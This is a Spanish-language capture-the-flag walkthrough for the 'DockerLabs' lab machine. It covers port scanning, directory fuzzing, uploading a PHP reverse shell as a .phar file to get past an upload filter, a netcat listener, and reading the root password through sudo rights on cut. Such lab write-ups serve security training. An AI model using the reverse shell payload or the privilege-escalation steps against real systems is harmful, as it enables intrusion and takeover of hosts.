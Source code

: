 ```yaml
---
icon: flag
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Dockerlabs DockerLabs (Easy)

## Instalación

Cuando obtenemos el `.zip` nos lo pasamos al entorno en el que vamos a empezar a hackear la maquina y haremos lo siguiente.

```shell
unzip dockerlabs.zip
```

Nos lo descomprimira y despues montamos la maquina de la siguiente forma.

```shell
bash auto_deploy.sh dockerlabs.tar
```

Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
```

Por lo que cuando terminemos de hackearla, le damos a `Ctrl+C` y nos eliminara la maquina para que no se queden archivos basura.

## Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-08 12:03 EST
Nmap scan report for asucar.dl (172.17.0.2)
Host is up (0.000033s latency).

PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Dockerlabs
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.20 seconds
```

Si nos metemos en la pagina aparentemente no veremos nada interesante, por lo que `fuzzearemos` un poco:

## Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htaccess.html       (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htpasswd.html       (Status: 403) [Size: 275]
/index.php            (Status: 200) [Size: 8235]
/machine.php          (Status: 200) [Size: 1361]
/server-status        (Status: 403) [Size: 275]
/uploads              (Status: 200) [Size: 741]
/upload.php           (Status: 200) [Size: 0]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```

Vemos varias cosas interesantes, entre ellas la pagina `machine.php` que nos llevara a un `upload` para poder subir un archivo, por lo que vamos a intentar crearnos una `reverse shell` subiendo un archivo `.php`.

## Escalate user www-data

Si intentamos subir un archivo directamente con `PHP` nos aparecera esto:

```
No se permite la subida de archivos que no sean .zip
```

Por lo que haremos lo siguiente:

> shell.phar

```php
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Pondremos el archivo en extension `.phar` para `Bypassear` el verificado, por lo que lo subiremos y nos iremos a la carpeta `/uploads`:

```
URL = http://<IP>/uploads/
```

Y antes de darle a nuestro archivo nos pondremos a la escucha.

```shell
nc -lvnp <PORT>
```

Seleccionamos el archivo en la web y si nos vamos a donde teniamos la escucha veremos que hemos obtenido una shell:

```
listening on [any] 7777 ...
connect to [192.168.120.128] from (UNKNOWN) [172.17.0.2] 46552
whoami
www-data
```

## Escalate Privileges

Sanitizaremos la shell (TTY):

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on a05f02578833:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on a05f02578833:
    (root) NOPASSWD: /usr/bin/cut
    (root) NOPASSWD: /usr/bin/grep
```

Por lo que vemos podemos ejecutar los binarios `cut` y `grep` como el usuario `root`, por lo que haremos lo siguiente:

Si nos vamos a `/opt` veremos una `nota.txt` que dice lo siguiente:

```
Protege la clave de root, se encuentra en su directorio /root/clave.txt, menos mal que nadie tiene permisos para acceder a ella.
```

Sabiendo esto haremos lo siguiente:

```shell
LFILE=/root/clave.txt
sudo cut -d "" -f1 "$LFILE"
```

Info:

```
dockerlabsmolamogollon123
```

Si probamos a poner como contraseña esa al usuario de `root` veremos que es dicha contraseña.

```shell
su root
```

Metemos como contraseña `dockerlabsmolamogollon123` y seremos `root`.
